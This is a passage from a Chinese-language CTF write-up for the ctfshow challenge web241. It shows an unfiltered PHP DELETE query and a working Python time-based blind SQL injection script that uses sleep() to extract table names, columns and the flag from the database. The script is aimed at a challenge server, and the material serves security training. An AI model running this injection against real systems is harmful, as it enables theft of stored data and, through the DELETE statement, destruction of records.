 ```
                print(i['pass'])
                break
        break

```



#### web241

```
sql语句

  //删除记录
  $sql = "delete from  ctfshow_user where id = {$id}";
      
返回逻辑

  //无过滤
```

delete注入，delete函数顾名思义就是从数据库中删除内容

注入点在where后面，可以采用时间盲注或者布尔盲注，但是由于delete会删除数据库中的记录，所以可能会出现记录都删完了但是flag还没注出来的情况

```python
import requests
import time
url = 'http://40c66eef-72b4-4b08-88d0-87bef44b640e.challenge.ctf.show/api/delete.php'
str = ''
for i in range(1, 60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名
        # payload = {
        #     'id': f'if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.03),1)#'
        # }
        # 爆列
        # payload = {
        #     'id': f"if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag'),{i},1))<{j},sleep(0.03),1)#"
        # }
        # 爆值
        payload = {
            'id': f"if(ascii(substr((select group_concat(flag) from flag),{i},1))<{j},sleep(0.03),1)#"
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.2:
            max = j
        else:
            min = j
```
